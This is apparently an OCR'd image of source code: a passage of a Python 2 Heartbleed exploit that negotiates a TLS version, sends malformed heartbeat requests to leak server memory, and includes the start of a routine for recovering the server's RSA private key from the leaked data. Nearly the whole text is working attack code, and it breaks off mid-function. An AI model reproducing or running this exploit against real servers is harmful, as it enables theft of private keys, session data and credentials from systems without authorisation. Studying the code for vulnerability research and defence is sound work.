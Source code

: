\documentclass[a4paper,12pt]{article}
\begin{document}
\begin{verbatim}
            supported = False
            for num,tlsver in tls_versions.items():

                if firstrun:
                    print 'Sending Client Hello for {}'.format(tlsver)
                s.send(hex2bin(build_client_hello(num)))

                if opts.verbose:
                    print 'Waiting for Server Hello...'

                while True:
                    typ,ver,message = rcv_tls_record(s)
                    if not typ:
                        if opts.verbose:
                            print 'Server closed connection without sending ServerHello for {}'.format(tlsver)
                        s.close()
                        s = conn(targ, port)
                        break
                    if typ == 22 and ord(message[0]) == 0x0E:
                        if firstrun:
                            print 'Received Server Hello for {}'.format(tlsver)
                        supported = True
                        break
                if supported: break

            if not supported:
                print '\nError! No TLS versions supported!'
                print '##################################################################'
                return

            if opts.verbose:
                print '\nSending heartbeat request...'
            sys.stdout.flush()

            keyfound = False
            if opts.extractkey:
            	res = hit_hb(s, targ, firstrun, supported)
            	if res == '':
            	    continue
            	keyfound = extractkey(targ, res, modulus)
            else:
	            res += hit_hb(s, targ, firstrun, supported)
            s.close()
            if keyfound:
                sys.exit(0)
            else:
                sys.stdout.write('\rPlease wait... connection attempt ' + str(x+1) + ' of ' + str(opts.num))
                sys.stdout.flush()

        print '\n##################################################################'
        print       
        return res

    except Exception as e:
       print "Error! " + str(e)
       print '##################################################################'
       print               

def extractkey(host, chunk, modulus):
    #print "\nChecking for private key...\n"
    n = int (modulus, 16)
    keysize = n.bit_length() / 16


\end{verbatim}
\end{document}
